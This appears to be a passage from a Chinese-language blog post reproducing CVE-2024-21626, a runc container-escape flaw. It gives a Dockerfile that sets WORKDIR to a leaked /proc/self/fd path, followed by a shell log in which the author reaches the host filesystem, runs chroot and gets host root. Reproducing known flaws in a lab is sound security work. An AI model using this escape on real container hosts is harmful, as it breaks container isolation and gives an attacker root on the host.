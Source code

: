 这个新机 make 和 go 都没有，中途也装了一下，不提。
写一个 Dockerfile 如下：

```Dockerfile
FROM ubuntu
 
# Sets the current working directory for this image
WORKDIR /proc/self/fd/7/
```

执行 `docker build . -t test`，这里 `-t` 的意思是 tag。
再执行 `docker run --rm -it test bash`，这里 `--rm` 可以让容器停止后自动删除容器文件系统，避免手动清理临时容器，一般用于测试，`-it bash` 意思是起一个交互式的 bash shell。
说是可能要多执行几次才会成功，但是执行了几十次都不行，把 Dockerfile 的 `WORKDIR` 改成 `WORKDIR /proc/self/fd/8/` 就可以了。

OHHHHHHHHH!!!!!!!!!
以下是命令执行记录：

```bash
kali@cverc:~/cve-2024-21626$ sudo docker run --rm -it test bash
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
root@6e9ec0c97b8f:.# cd ../..
chdir: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
root@6e9ec0c97b8f:../..# ls
block  bus  class  dev  devices  firmware  fs  hypervisor  kernel  module  power
root@6e9ec0c97b8f:../..# pwd
../..
root@6e9ec0c97b8f:../..# cd ..
root@6e9ec0c97b8f:../../..# ls /
bin  boot  dev  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
root@6e9ec0c97b8f:../../..# ls /home
ubuntu
root@6e9ec0c97b8f:../../..# docker ps
bash: docker: command not found
root@6e9ec0c97b8f:../../..# chroot .
# ls
bin   cdrom  etc   lib    lib64   lost+found  mnt  proc  run   snap  swapfile  tmp  var
boot  dev    home  lib32  libx32  media       opt  root  sbin  srv   sys       usr
# docker ps
CONTAINER ID   IMAGE     COMMAND   CREATED         STATUS         PORTS     NAMES
6e9ec0c97b8f   test      "bash"    4 minutes ago   Up 4 minutes             admiring_gates
# whoami
root
# exit
root@6e9ec0c97b8f:../../..# exit
exit
kali@cverc:~/cve-2024-21626$ sudo docker run --rm -it test
[sudo] password for kali:
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
root@21b173949eee:.# exit
exit
kali@cverc:~/cve-2024-21626$ sudo docker run --rm -it test bash
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
root@d5e014a9425b:.#
```
